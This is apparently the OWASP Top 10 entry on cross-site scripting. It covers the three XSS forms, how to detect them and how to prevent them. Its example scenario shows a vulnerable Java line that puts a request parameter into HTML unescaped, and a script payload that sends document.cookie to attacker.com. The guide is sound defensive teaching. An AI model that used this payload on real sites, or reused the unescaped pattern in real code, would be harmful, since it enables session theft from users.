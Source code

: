 # A7 Cross Site Scripting

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl \| Exploitability | Prevalance \| Detectability | Technical \| Business |
| Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks. | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |

## Am I vulnerable to attack?

Three are three forms of XSS:

* **Reflected XSS**. If your application or API includes unsanitized user input as part of HTML output, and this is not validated or escaped, or there is no content security policy, the victim's browser will execute the attacker's arbitrary HTML or JavaScript content. Typically the user will need to interact with a link, or some other attacker controlled page, such as a watering hole attack such as malvertizing or similar. 
* **Stored XSS** If your application or API stores unsanitized user input, and then this is viewed at a later time by another user or an administrator, the attacker can run arbitrary HTML or JavaScript on the victim user or administrator's browser. As the impact is higher, stored XSS is often considered a high or critical risk. 
* **DOM XSS**. Modern JavaScript frameworks and single page applications and APIs that dynamically include attacker-controllable data to a page, are vulnerable to DOM XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but context aware escaping, input validation and content security policies can reduce the likelihood of all three forms of XSS.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DIV replacement or defacement (such as trojan login DIVs), attacks against the user's browser such as malicious software downloads, key logging, and other client side attacks.

Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, usually using third party libraries built on top of these technologies. This diversity makes automated detection difficult, particularly when using single-page applications and modern JavaScript frameworks and libraries, particularly if automated tools have not caught up with the new library, or if testers are unfamiliar with DOM XSS.

Development teams seeking to assess if they have cross site scripting should always use the latest frameworks, which typically aim to prevent XSS as a bug class. Deeper verification requires a combination of skilled penetration testing and manual source code review.

Large and high performing organizations should consider the use of automated SAST tools to inspect their source integrated into the CI/CD pipeline, along with automated scripted DAST tools such as OWASP Zap, scanning every build of every application in the portfolio to discover easily discovered flaws with every build. Although not a complete panacea, automated testing has a place in larger organizations where penetration tests after each build or manual source code review is impractical.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

1. Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve [Server XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Server_XSS) vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.

2. Applying context sensitive encoding when modifying the browser document on the client side acts against [client XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS). When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).

3. Enabling a [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) (CSP) and moving inline javascript code to additional files will defend against XSS across the entire site, assuming no other vulnerabilities (such as upload path tampering or download path traversal) exist that would allow placing malicious code in the server files.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker manipulates the 'CC' parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim's session ID to be sent to the attacker's website, allowing the attacker to hijack the user's current session. 
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See 2017-A8 for information on CSRF.

## References

### OWASP

* [OWASP Proactive Controls - #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls - #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard - V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
